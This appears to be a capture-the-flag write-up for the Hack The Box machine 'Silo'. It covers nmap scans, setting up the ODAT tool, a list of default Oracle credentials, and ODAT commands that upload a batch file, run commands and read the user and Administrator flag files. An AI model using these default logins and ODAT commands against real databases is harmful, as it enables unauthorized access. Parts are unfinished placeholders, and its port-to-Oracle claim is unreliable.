

---
search:
  exclude: true
---
# Silo Writeup

## Introduction :

Silo is a Medium windows box released back in March 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Silo]
      → nmap -F 10.10.10.82
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 10:50 GMT
      Nmap scan report for 10.10.10.82
      Host is up (0.098s latency).
      Not shown: 92 closed ports
      PORT      STATE SERVICE
      80/tcp    open  http
      135/tcp   open  msrpc
      139/tcp   open  netbios-ssn
      445/tcp   open  microsoft-ds
      49152/tcp open  unknown
      49153/tcp open  unknown
      49154/tcp open  unknown
      49155/tcp open  unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 1.65 seconds
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB]
      → nmap -sCV -p80,135,139,445 10.10.10.82
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 10:51 GMT
      Nmap scan report for 10.10.10.82
      Host is up (0.15s latency).
    
      PORT    STATE SERVICE      VERSION
      80/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
      |_http-server-header: Microsoft-IIS/8.5
      |_http-title: IIS Windows Server
      135/tcp open  msrpc        Microsoft Windows RPC
      139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
      Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: 1m22s, deviation: 0s, median: 1m21s
      |_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
      | smb-security-mode:
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: supported
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2020-03-16T10:52:49
      |_  start_date: 2020-03-16T10:51:55
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 35.03 seconds
    
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 

So we are greeted by a default Windows Server IIS webpage, so we could use dirsearch on it but it won't give us much results that we can use. So we'll move onto the next ports: 135,139 & 445 which are giving an oracle database for us to work with, onto which we'll use the [ODat](https://github.com/quentinhardy/odat) tool. So first let's install it :
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Silo]
      → git clone https://github.com/quentinhardy/odat
      Cloning into 'odat'...
      remote: Enumerating objects: 180, done.
      remote: Counting objects: 100% (180/180), done.
      remote: Compressing objects: 100% (122/122), done.
      remote: Total 900 (delta 97), reused 112 (delta 58), pack-reused 720
      Receiving objects: 100% (900/900), 934.49 KiB | 1.77 MiB/s, done.
      Resolving deltas: 100% (531/531), done.
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Silo]
      → cd odat
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 ✔
      → git submodule init                                                  [c47824b]
      Submodule 'docs' (https://github.com/quentinhardy/odat.wiki.git) registered for path 'docs'
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 ✔
      → git submodule update                                                [c47824b]
      Cloning into '/home/nihilist/_HTB/Silo/odat/docs'...
      Submodule path 'docs': checked out '402d0446a807f8c75e07addaf0887a82c739bf1f'
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 ✔
      → sudo apt install libaio1 python3-dev alien python3-pip
    

Once the dependencies installed, we download the rpm file from the oracle [website](https://www.oracle.com/database/technologies/instant-client/linux-x86-64-downloads.html)
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 ✔
      → wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-basiclite-19.6.0.0.0-1.x86_64.rpm
      --2020-03-16 12:51:55--  https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-basiclite-19.6.0.0.0-1.x86_64.rpm
      Resolving download.oracle.com (download.oracle.com)... 23.212.224.6
      Connecting to download.oracle.com (download.oracle.com)|23.212.224.6|:443... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 27978612 (27M) [application/x-redhat-package-manager]
      Saving to: ‘oracle-instantclient19.6-basiclite-19.6.0.0.0-1.x86_64.rpm’
    
      oracle-instantclien 100%[===================>]  26.68M  2.38MB/s    in 11s
    
      2020-03-16 12:52:08 (2.34 MB/s) - ‘oracle-instantclient19.6-basiclite-19.6.0.0.0-1.x86_64.rpm’ saved [27978612/27978612]
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 ✔
      → sudo alien --to-deb oracle-instantclient19.6-basiclite-19.6.0.0.0-1.x86_64.rpm
      Warning: Skipping conversion of scripts in package oracle-instantclient19.6-basiclite: postinst postrm
      Warning: Use the --scripts parameter to include the scripts.
      oracle-instantclient19.6-basiclite_19.6.0.0.0-2_amd64.deb generated
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 ?
      → sudo dpkg -i oracle-instantclient19.6-basiclite_19.6.0.0.0-2_amd64.deb
      Selecting previously unselected package oracle-instantclient19.6-basiclite.
      (Reading database ... 572297 files and directories currently installed.)
      Preparing to unpack oracle-instantclient19.6-basiclite_19.6.0.0.0-2_amd64.deb ...
      Unpacking oracle-instantclient19.6-basiclite (19.6.0.0.0-2) ...
      Setting up oracle-instantclient19.6-basiclite (19.6.0.0.0-2) ...
      Processing triggers for libc-bin (2.29-10) ...
    
    

Now that we have installed it, we edit our /etc/profle to define the Oracle env variables:
    
    
    export ORACLE_HOME=/usr/lib/oracle/19.6/client64/
    export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
    export PATH=$ORACLE_HOME/bin:$PATH
    

` 

Next step is creating /etc/ld.so.conf.d/oracle.conf and adding the path to Oracle Home:
    
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → sudo nano /etc/ld.so.conf.d/oracle.conf
    

Adding the path to the Oracle Home directory: 
    
    
      /usr/lib/oracle/19.6/client64/lib/
    

Next we update the ldpath:
    
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → sudo ldconfig
    

And finally we pip3 install cx_oracle and by testing it we see that we didn't have any problems so far: 
    
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → sudo -s                                                                                                       [c47824b]
      Starting ssh-agent...
      Identity added: /root/.ssh/id_rsa (root@prometheus)
      Identity added: /root/.ssh/id_ed25519 (root@prometheus)
    
      λ root [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → source /etc/profile                                                                                           [c47824b]
      # pip3 install cx_Oracle                                                                                        [c47824b]
      Collecting cx_Oracle
        Downloading https://files.pythonhosted.org/packages/c9/ba/0fb63d616c2856016c13615ac43209b1909b7dbd8c5c461a79922e276678/cx_Oracle-7.3.0-cp37-cp37m-manylinux1_x86_64.whl (742kB)
          100% |████████████████████████████████| 747kB 744kB/s
      Installing collected packages: cx-Oracle
      Successfully installed cx-Oracle-7.3.0
      # python3 -c 'import cx_Oracle'                                                                                 [c47824b]
      #
    

Next up we install the remaining dependencies we need : 
    
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → sudo apt install python3-scapy                                                                                [c47824b]
      Reading package lists... Done
      Building dependency tree
      Reading state information... Done
      python3-scapy is already the newest version (2.4.3-3).
      python3-scapy set to manually installed.
      The following packages were automatically installed and are no longer required:
        b43-fwcutter chromium-common chromium-sandbox firmware-b43-installer firmware-b43legacy-installer
        gnome-brave-icon-theme gnome-colors-common libdns-export1107 libdns1107 libexiv2-14 libicu57 libisc-export1104
        libisc1104 libjs-jquery-easing libjs-jquery-fancybox libjs-jquery-mousewheel libmicrodns0 libmysofa0 libradare2-3.9
        libu2f-udev python-apt python-asn1crypto python3-pycountry python3-simplegeneric ruby-diff-lcs ruby-docile
        ruby-rspec-expectations ruby-rspec-support ruby-simplecov ruby-simplecov-html system-config-printer
      Use 'sudo apt autoremove' to remove them.
      0 upgraded, 0 newly installed, 0 to remove and 123 not upgraded.
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → sudo pip3 install colorlog termcolor pycrypto passlib                                                         [c47824b]
      Collecting colorlog
        Downloading https://files.pythonhosted.org/packages/00/0d/22c73c2eccb21dd3498df7d22c0b1d4a30f5a5fb3feb64e1ce06bc247747/colorlog-4.1.0-py2.py3-none-any.whl
      Requirement already satisfied: termcolor in /usr/lib/python3/dist-packages (1.1.0)
      Requirement already satisfied: pycrypto in /usr/lib/python3/dist-packages (2.6.1)
      Requirement already satisfied: passlib in /usr/lib/python3/dist-packages (1.7.2)
      Installing collected packages: colorlog
      Successfully installed colorlog-4.1.0
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → sudo pip3 install argcomplete && sudo activate-global-python-argcomplete                                      [c47824b]
      Requirement already satisfied: argcomplete in /usr/lib/python3/dist-packages (1.8.1)
      Installing bash completion script /etc/bash_completion.d/python-argcomplete.sh
    
    

From there we need to install the development version of pyinstaller (http://www.pyinstaller.org/) for python3.
    
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → pip3 install pyinstaller                                                                                      [c47824b]
      Collecting pyinstaller
        Downloading https://files.pythonhosted.org/packages/3c/c9/c3f9bc64eb11eee6a824686deba6129884c8cbdf70e750661773b9865ee0/PyInstaller-3.6.tar.gz (3.5MB)
          100% |████████████████████████████████| 3.5MB 206kB/s
        Installing build dependencies ... done
      Requirement already satisfied: setuptools in /usr/lib/python3/dist-packages (from pyinstaller) (44.0.0)
      Collecting altgraph (from pyinstaller)
        Downloading https://files.pythonhosted.org/packages/ee/3d/bfca21174b162f6ce674953f1b7a640c1498357fa6184776029557c25399/altgraph-0.17-py2.py3-none-any.whl
      Building wheels for collected packages: pyinstaller
        Running setup.py bdist_wheel for pyinstaller ... done
        Stored in directory: /home/nihilist/.cache/pip/wheels/62/fe/62/4c0f196d1e0dd689e097449bc81d7d585a7de7dd86b081b80b
      Successfully built pyinstaller
      Installing collected packages: altgraph, pyinstaller
        The scripts pyi-archive_viewer, pyi-bindepend, pyi-grab_version, pyi-makespec, pyi-set_version and pyinstaller are installed in '/home/nihilist/.local/bin' which is not on PATH.
        Consider adding this directory to PATH or, if you prefer to suppress this warning, use --no-warn-script-location.
      Successfully installed altgraph-0.17 pyinstaller-3.6
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → ./odat.py -h                                                                                                  [c47824b]
      ERROT: Python 3 has to be used for this version of ODAT
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → python3 odat.py -h
    

AND FINALLY we are able to use the Oracle Database Attacking Tool odat.py: 
    
    
      λ nihilist [ 10.10.14.10 ] [_HTB/Silo/odat] at  master-python3 ?
      → python3 odat.py -h                                                                                            [c47824b]
      odat.py:52: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
        import imp
      usage: odat.py [-h] [--version]
                     {all,tnscmd,tnspoison,sidguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
                     ...
    
                  _  __   _  ___
                 / \|  \ / \|_ _|
                ( o ) o ) o || |
                 \_/|__/|_n_||_|
      -------------------------------------------
        _        __           _           ___
       / \      |  \         / \         |_ _|
      ( o )       o )         o |         | |
       \_/racle |__/atabase |_n_|ttacking |_|ool
      -------------------------------------------
    
      By Quentin Hardy (quentin.hardy@protonmail.com or quentin.hardy@bt.com)
    
      positional arguments:
        {all,tnscmd,tnspoison,sidguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
    
                            Choose a main command
          all               to run all modules in order to know what it is possible to do
          tnscmd            to communicate with the TNS listener
          tnspoison         to exploit TNS poisoning attack
          sidguesser        to know valid SIDs
          passwordguesser   to know valid credentials
          utlhttp           to send HTTP requests or to scan ports
          httpuritype       to send HTTP requests or to scan ports
          utltcp            to scan ports
          ctxsys            to read files
          externaltable     to read files or to execute system commands/scripts
          dbmsxslprocessor  to upload files
          dbmsadvisor       to upload files
          utlfile           to download/upload/delete files
          dbmsscheduler     to execute system commands without a standard output
          java              to execute system commands
          passwordstealer   to get hashed Oracle passwords
          oradbg            to execute a bin or script
          dbmslob           to download files
          stealremotepwds   to steal hashed passwords thanks an authentication sniffing (CVE-2012-3137)
          userlikepwd       to try each Oracle username stored in the DB like the corresponding pwd
          smb               to capture the SMB authentication
          privesc           to gain elevated access
          cve               to exploit a CVE
          search            to search in databases, tables and columns
          unwrapper         to unwrap PL/SQL source code (no for 9i version)
          clean             clean traces and logs
    
      optional arguments:
        -h, --help          show this help message and exit
        --version           show program's version number and exit
    
    

Let's keep in mind that Oracle databases have a few possible default credentials : 
    
    
      SYSTEM:MANAGER
      SCOTT:TIGER
      SYS:CHANGE_ON_INSTALL
      OUTLN:OUTLN
      DBSNMP:DBSNMP
      CTXSYS:CTXSYS
      MDSYS:MDSYS
    

so we try them manually one by one, until we find that scott:tiger are the correct credentials: Although they may be the correct credentials, we do not know what is the user on the box, so we create a .bat script to be able to list the directories in C:\Users\ :
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 !?
      → echo 'dir /a c:\Users\' > nihilist.bat
    

We upload it using odat.py's dbmsxslprocessor : 
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 !?
      → python3 odat.py dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "c:/" nihilist.bat /home/nihilist/_HTB/Silo/odat/nihilist.bat --sysdba
    
      [1] (10.10.10.82:1521): Put the /home/nihilist/_HTB/Silo/odat/nihilist.bat local file in the c:/ path (named nihilist.bat) of the 10.10.10.82 server
      [+] The /home/nihilist/_HTB/Silo/odat/nihilist.bat local file was put in the remote c:/ path (named nihilist.bat)
    
    

Now we use it to list the user directories : 
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 !?
      → python3 odat.py externaltable -s 10.10.10.82 -d XE -U scott -P tiger --exec "dir C:/" nihilist.bat --sysdba
    

And looking at the results, we get the username "Phineas" so we grab his user flag:
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 !?
      → python3 odat.py externaltable -s 10.10.10.82 -d XE -U scott -P tiger --getFile "c:/Users/Phineas/Desktop" "user.txt" "spz.io" --sysdba
    
      [1] (10.10.10.82:1521): Read the user.txt file stored in the c:/Users/Phineas/Desktop path
      [+] Data stored in the remote file user.txt stored in c:/Users/Phineas/Desktop
      92XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have the user flag ! 

## **Part 3 : Getting Root Access**

the text goes here
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Silo/odat] at  master-python3 !?
      → sudo python3 odat.py externaltable -s 10.10.10.82 -d XE -U scott -P tiger --getFile "c:/Users/Administrator/Desktop" "root.txt" "spz.io" --sysdba
    
      [1] (10.10.10.82:1521): Read the root.txt file stored in the c:/Users/Administrator/Desktop path
      [+] Data stored in the remote file root.txt stored in c:/Users/Administrator/Desktop
      cdXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have the root flag ! 

## **Conclusion**

Here we can see the progress graph :

